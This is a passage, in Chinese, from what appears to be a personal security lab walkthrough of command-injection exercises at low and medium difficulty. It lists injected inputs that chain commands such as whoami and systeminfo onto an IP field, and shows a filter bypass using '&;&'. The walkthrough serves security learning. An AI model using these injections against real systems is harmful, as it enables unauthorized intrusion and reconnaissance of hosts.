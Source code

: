 ```
# 检查目标机器是否能正确通信
192.168.8.103&&ipconfig
```

![image-20230420153802674](D:\Document\My_book\My_Books\钟全龙著\img\image-20230420153802674.png)

```
# 查看目标几的用户ID
192.168.8.103&&whoami
```

![image-20230420154055839](D:\Document\My_book\My_Books\钟全龙著\img\image-20230420154055839.png)

此时可以看见用户的名字被返回了回来，用户就是administer。

```
# 查看系统的信息，通过目标主机来利用未被修复的漏洞，因为返回的信息包含着用户打补丁的信息
192.168.8.103&&systeminfo
```

![image-20230420154453461](D:\Document\My_book\My_Books\钟全龙著\img\image-20230420154453461.png)

拿到以上信息就可以对目标主机发起攻击。

---

### Commend Injection Middle

级别的提升肯定会意味着注入的方式会被屏蔽，所以先尝试没有安全措施的注入，注入一定是从简到难。

![image-20230420154742526](D:\Document\My_book\My_Books\钟全龙著\img\image-20230420154742526.png)

```
# 尝试输入以下信息
192.168.8.106&&dir
```

![image-20230420155000711](D:\Document\My_book\My_Books\钟全龙著\img\image-20230420155000711.png)

可以尝试换其他的符号，

```
# 尝试输入一下信息
192.168.8.103&dir
```

![image-20230420155613300](D:\Document\My_book\My_Books\钟全龙著\img\image-20230420155613300.png)

```
192.168.8.103&;&dir
```

![image-20230420155726838](D:\Document\My_book\My_Books\钟全龙著\img\image-20230420155726838.png)

发现使用&;&也能实现注入，看来这里只对&&和;进行了过滤。
